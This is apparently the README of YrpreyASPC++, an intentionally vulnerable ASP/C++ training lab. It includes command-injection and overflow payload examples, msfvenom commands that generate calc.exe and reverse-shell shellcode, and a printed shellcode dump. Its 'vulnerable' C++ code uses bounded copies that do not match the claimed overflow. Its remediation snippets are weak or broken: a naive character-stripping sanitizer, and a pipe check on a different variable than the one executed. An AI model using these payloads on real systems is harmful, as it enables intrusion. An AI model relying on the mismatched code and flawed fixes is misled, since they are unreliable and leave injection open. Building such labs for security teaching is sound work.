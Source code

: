 # YrpreyASPC++

![yprey](https://i.imgur.com/zHoDJG9_d.webp?maxwidth=760&fidelity=grand)

**Created by [Fernando Mengali](https://www.linkedin.com/in/fernando-mengali-273504142/)**

YrpreyASPC++ is a development framework for those interested in offensive security and application security to mitigate vulnerabilities. This framework aims to demonstrate vulnerabilities in ASP and how Cross-Site Scripting, Buffer Overflow, and remote command execution vulnerabilities work, exploiting the lack of sanitization in ASP processing and the executable software create_user.exe.


The framework was developed to teach and learn details in Pentest (testing penetration) and Application Security. In the context of Offensive Security, vulnerabilities contained in web applications can be identified, exploited and compromised. For application security professionals and experts, the framework provides an in-depth understanding of code-level vulnerabilities. Yrprey, making it valuable for educational, learning and teaching purposes in the field of Information Security. For more information about the vulnerabilities.

#### The system has the following vulnerabilities:

After understanding the scenario and the vulnerable route, the process of identifying and exploiting vulnerabilities becomes easier. If you are an Application Security professional, knowing the scenario and routes of endpoints makes the process of identifying and correcting vulnerabilities easier with manual Code Review Security techniques or automated SAST and DAST analyses

Complete table with points vulnerables, vulnerability details:



 ## The framework was written with the following technologies:

* 1º - ASP
* 2º - C++ language

#### List of Vulnerabilities

|Qtde |          **Vulnerabilties**          |**Method**|  **Path and attack**                |                   **Payload Example**                   |
|----:|:------------------------------------:|:--------:|:-----------------------------------:|:-------------------------------------------------------:|
| 01  |  XSS - Cross-site Scripting          |   GET    |  /index.asp                         |        XSS Basic                                        |
| 02  |  Remote Command Execution            |   N/A    |  create_user.exe pipe <command>     |   create_user.exe "pipe" ipconfig                       |
| 03  |  Buffer Overflow - Vanilla           |   N/A    |  create_user.exe <exploit payload>  |   create_user.exe (28 offset)+EIP+(16 0x90) + shellcode | 


## How Install IIS

* 1º - Access Control Panel: Click on "Start" and select "Control Panel".
* 2º - Add or Remove Programs: In the Control Panel, click on "Add or Remove Programs".
* 3º - Add/Remove Windows Components: On the left side, click on "Add/Remove Windows Components".Import the yrprey.sql into the database.
* 4º - Select Internet Information Services (IIS): In the list of Windows components, check the box for "Internet Information Services (IIS)".

## Configure IIS
* 1º - Access the IIS Manager: After installation, open the "Internet Information Services (IIS) Manager". To do this, click on "Start" > "Control Panel" > "Administrative Tools" > "Internet Information Services (IIS) Manager".
* 2º - Configure the Default Website:   In the IIS Manager, expand the local computer node and click on "Websites". You will see the "Default Website".
* 3º - Default Website Properties:   Right-click on the "Default Website" and select "Properties".
* 4º - Basic Settings:   In the "General" tab, you can view and change the physical path where the site files are stored.
* 5º - In the "Documents" tab, you can add or remove default pages such as default.asp or index.html.
* 6º - Security and Permissions: In the "Directory Security" tab, you can configure permissions and authentication for the site.

## Access to page

* 1º Add the ASP file, such as index.html or default.asp, and save it in the root directory of the "Default Website": C:\Inetpub\wwwroot.
* 2º Access the Site: Access the address http://localhost in your browser


## How to fix vulnerabilities

Sanitization Protect
```asp

Function SanitizeInput(input)
    SanitizeInput = Replace(input, "'", "''")
    SanitizeInput = Replace(SanitizeInput, ";", "")
    SanitizeInput = Replace(SanitizeInput, "&", "")
End Function

username = SanitizeInput(Request.Form("username"))
email = SanitizeInput(Request.Form("email"))
telephone = SanitizeInput(Request.Form("telephone"))


```

Protection to XSS
```asp

Function HTMLEncode(str)
    HTMLEncode = Server.HTMLEncode(str)
End Function
Response.Write "Username " & HTMLEncode(nome) & " successful!"


```

Protection to Remote Command Execution - RCE
```asp
If InStr(nome, "|") = 0 Then
    shell.Run "create_user.exe " & userme, 0, True
End If

```


### This is the vulnerable code in C++ language.
```c++

#include <iostream>
#include <cstdlib>
#include <cstring>

using namespace std;

int main(int argc, char *argv[]) {
    char username[20];
    char mkdir_command[50];

    // Checks if the expected argument (username) has been passed
    if (argc != 2) {
        cout << "Usage: " << argv[0] << " username" << endl;
        return 1;
    }

    // Copies the argument to the username variable
    strncpy(username, argv[1], sizeof(username) - 1);
    username[sizeof(username) - 1] = '\0';  // Ensures username is correctly terminated

    // Constructs the command to create the directory with the username
    snprintf(mkdir_command, sizeof(mkdir_command), "mkdir %s", username);

    // Executes the mkdir command to create the directory
    cout << "Executing command: " << mkdir_command << endl;
    int result = system(mkdir_command);

    // Checks if the directory was created successfully
    if (result == 0) {
        cout << "Directory '" << username << "' created successfully." << endl;
    } else {
        cout << "Error creating directory '" << username << "'." << endl;
        return 1;  // Exits the program in case of an error during directory creation
    }

    // Here you can continue the flow of your program as needed

    return 0;
}


```

## Generate Shellcode calc.exe usage


Command msfvenom to generate calc.exe

````c
msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0a\x0d' EXITFUNC=thread -f python

````

````

\xd9\xe5\xd9\x74\x24\xf4\x5e\x29\xc9\xbf\x4e\x2d
\xb6\x3e\xb1\x31\x83\xc6\x04\x31\x7e\x14\x03\x7e
\x5a\xcf\x43\xc2\x8a\x8d\xac\x3b\x4a\xf2\x25\xde
\x7b\x32\x51\xaa\x2b\x82\x11\xfe\xc7\x69\x77\xeb
\x5c\x1f\x50\x1c\xd5\xaa\x86\x13\xe6\x87\xfb\x32
\x64\xda\x2f\x95\x55\x15\x22\xd4\x92\x48\xcf\x84
\x4b\x06\x62\x39\xf8\x52\xbf\xb2\xb2\x73\xc7\x27
\x02\x75\xe6\xf9\x19\x2c\x28\xfb\xce\x44\x61\xe3
\x13\x60\x3b\x98\xe7\x1e\xba\x48\x36\xde\x11\xb5
\xf7\x2d\x6b\xf1\x3f\xce\x1e\x0b\x3c\x73\x19\xc8
\x3f\xaf\xac\xcb\xe7\x24\x16\x30\x16\xe8\xc1\xb3
\x14\x45\x85\x9c\x38\x58\x4a\x97\x44\xd1\x6d\x78
\xcd\xa1\x49\x5c\x96\x72\xf3\xc5\x72\xd4\x0c\x15
\xdd\x89\xa8\x5d\xf3\xde\xc0\x3f\x99\x21\x56\x3a
\xef\x22\x68\x45\x5f\x4b\x59\xce\x30\x0c\x66\x05
\x75\xf2\x84\x8c\x83\x9b\x10\x45\x2e\xc6\xa2\xb3
\x6c\xff\x20\x36\x0c\x04\x38\x33\x09\x40\xfe\xaf
\x63\xd9\x6b\xd0\xd0\xda\xb9\xb3\xb7\x48\x21\x1a
\x52\xe9\xc0\x62
````

Exploited Buffer Overflow Vanilla - Calc.exe

![yprey](https://i.imgur.com/bxIt0JW.png)

## Generate Shellcode shell reverse usage

Command msfvenom to generate calc.exe

````c

sfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> EXITFUNC=thread -b '\x00\x0a\x0d' -a x86 --platform Windows -f c

````

Exploited Buffer Overflow Vanilla - Shell Reverse

![yprey](https://i.imgur.com/ljv3tLs.png)

![yprey](https://i.imgur.com/MXMfA84.png)



## Observation
You can test on Windows XP with IIS.

## Reporting Vulnerabilities

Please, avoid taking this action and requesting a CVE!

The application intentionally has some vulnerabilities, most of them are known and are treated as lessons learned. Others, in turn, are more "hidden" and can be discovered on your own. If you have a genuine desire to demonstrate your skills in finding these extra elements, we suggest you share your experience on a blog or create a video. There are certainly people interested in learning about these nuances and how you identified them. By sending us the link, we may even consider including it in our references.
